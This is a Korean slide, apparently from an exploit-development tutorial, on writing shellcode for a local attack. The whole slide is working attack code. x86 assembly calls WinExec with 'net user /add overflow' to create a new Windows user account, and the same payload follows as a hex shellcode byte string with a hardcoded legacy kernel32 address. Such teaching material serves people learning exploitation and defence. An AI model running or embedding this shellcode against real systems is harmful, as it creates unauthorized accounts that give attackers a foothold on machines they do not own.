

# 로컬 공격을 위한 Shellcode작성
WinExec(“net user /add overflow”);
어셈블리어로 작성된 WinExec함수 호출
push esp
push ebp
mov ebp, esp
xor edi, edi
push edi

mov DWORD ptr[ebp-05h], 0x776f6c66 //wolf
mov DWORD ptr[ebp-09h], 0x7265766f //revo
mov DWORD ptr[ebp-0dh], 0x20646461 // dda
mov DWORD ptr[ebp-11h], 0x2f207265 /// re
mov DWORD ptr[ebp-15h], 0x73752074 //su t
mov byte ptr[ebp-16h], 65h         //e
mov byte ptr[ebp-17h], 6eh         //n

sub esp, 14h
push 05h
mov edi, esp
add edi, 5
mov dword ptr[ebp-20h], edi
sub edi, 9
mov esp, edi
mov eax, 0x7C86114D           //call WinExec
call eax
pop esp
Shellcode로 작성된 WinExec함수 호출

"\x54\x55\x8B\xEC\x33\xFF\x57\xC7\x45”
“\xFB\x66\x6C\x6F\x77\xC7\x45\xF7\x6F”
“\x76\x65\x72\xC7\x45\xF3\x61\x64\x64”
“\x20\xC7\x45\xEF\x65\x72\x20\x2F\xC7”
“\x45\xEB\x74\x20\x75\x73\xC6\x45\xEA”
“\x65\xC6\x45\xE9\x6E\x83\xEC\x14\x6A”
“\x05\x8B\xFC\x83\xC7\x05\x89\x7D\xE0”
“\x83\xEF\x09\x8B\xE7\xB8\x4D\x11\x86”
“\x7C\xFF\xD0\xB8\xA2\xCA\x81\x7C\x33”
“\xFF\x57\xFF\xD0”